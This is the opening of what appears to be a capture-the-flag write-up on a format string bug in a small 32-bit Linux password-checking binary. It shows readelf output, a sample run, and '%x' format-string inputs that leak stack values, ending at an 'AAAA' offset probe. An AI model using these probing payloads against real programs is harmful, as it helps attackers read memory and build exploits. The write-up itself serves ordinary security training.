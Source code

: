 * http://www.cgsecurity.org/Articles/SecProg/Art4/

`readelf -h binary`

Output:

```
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x1
  Entry point address:               0x8048480
  Start of program headers:          52 (bytes into file)
  Start of section headers:          6400 (bytes into file)
  Flags:                             0x0
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         9
  Size of section headers:           40 (bytes)
  Number of section headers:         31
  Section header string table index: 28
```

First run through, it's printing what I give it back out to me. That's a possible sign of FSB.

```
$ ./binary
Hey, it's Dan again. This is a pretty cool program I made for managing my password. For some reason I can't get it to work though :\.
What is your username: hello
Hello: hello

You are the incorrect user
```

**Direct Parameter Accessing**:

Let's give it some formats and see what we get back!

`echo -e '|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x' | ./binary`

Output:

```
Hello: |40|f7697580|80482f3|0|fff7d994|0|7c78257c|257c7825|78257c78|7c78257c
```

We can see the start of our repeating block is `7c78257c`. In order to verify this, we can try and print a block of 'A's.

`echo -e 'AAAA|%x|%x|%x|%x|%x|%x|%x' | ./binary`
